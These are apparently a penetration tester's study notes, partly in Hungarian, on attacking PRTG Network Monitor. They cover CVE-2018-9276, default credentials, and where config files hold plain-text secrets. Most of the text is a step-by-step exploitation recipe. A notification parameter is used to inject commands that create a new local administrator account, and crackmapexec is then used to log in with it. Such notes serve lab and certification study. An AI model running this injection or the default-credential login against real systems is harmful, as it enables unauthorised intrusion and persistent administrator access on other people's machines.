# PRTG network monitor
## vulnerabilites (with normal POC)
* 2 XSS  
* 1 DOS  
* Command injection (authentication needed)
  * CVE-2018-9276
  * it is an authenticated command injection in the PRTG System Administrator web console for PRTG Network Monitor before version 18.2.39.  

Source: https://www.cvedetails.com/vulnerability-list/vendor_id-5034/product_id-35656/Paessler-Prtg-Network-Monitor.html
## info
usually presented in internal networks (rarely on external networks)  
common ports: 80, 443, 8080, ... (web ports)  
default credentials: prtgadmin:prtgadmin  
## ha hozzaferunk a fajlrendszerhez
* C:\ProgramData\Paessler mappa a default mappa ahol a config fajlok vannak
* Ott lehet siman config adat ami plain text
* Nagy file-ok vannak arra fele, ugyesen kell atnezni, valahogy greppelve
## exploitation
https://www.codewatch.org/blog/?p=453  
Setup / Account Settings / Notifications / Add new notification  
set name field  
tick the checkbox 'Execute Program'  
Under Program File, select Demo exe notification - outfile.ps1 from the drop-down  
in the parameter field, enter a command.  
example rce code  
<pre>test.txt;net user prtgadm1 Password_123 /add;net localgroup administrators prtgadm1 /add</pre>  
click 'Save'  
search your created notification (in the notifications list) and click on the checkbox at the end of the row  
click on 'Send test notification'  
connect to the machine with the created user  
<pre>sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Password_123</pre>
